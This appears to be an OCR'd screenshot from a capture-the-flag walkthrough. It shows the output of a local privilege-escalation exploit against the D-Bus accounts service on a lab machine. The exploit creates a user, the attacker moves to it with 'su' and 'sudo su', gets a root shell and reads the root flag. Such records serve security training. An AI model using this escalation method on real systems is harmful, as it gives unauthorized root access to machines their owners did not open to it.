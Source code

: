 ```
id: ‘ahmed’: no such user
[+] User Created with the name of ahmed
[+] Timed out at: 0.008040464646519817
Error org.freedesktop.DBus.Error.UnknownMethod: No such interface “org.freedesktop.Accounts.User” on object at path /org/freedesktop/Accounts/User1000
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Timed out at: 0.00808858230962285
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 
bash: cannot set terminal process group (61408): Inappropriate ioctl for device
bash: no job control in this shell

root@drippingblues:/home/thugger# su ahmed

bash: cannot set terminal process group (61408): Inappropriate ioctl for device
bash: no job control in this shell

ahmed@drippingblues:/home/thugger$ sudo su

bash: cannot set terminal process group (61408): Inappropriate ioctl for device
bash: no job control in this shell

root@drippingblues:/home/thugger# id
uid=0(root) gid=0(root) groups=0(root)

root@drippingblues:/home/thugger# cd /root
root@drippingblues:~# ls
root.txt  snap

root@drippingblues:~# cat root.txt 
78CE377EF7F10FF0EDCA63DD60EE63B8
```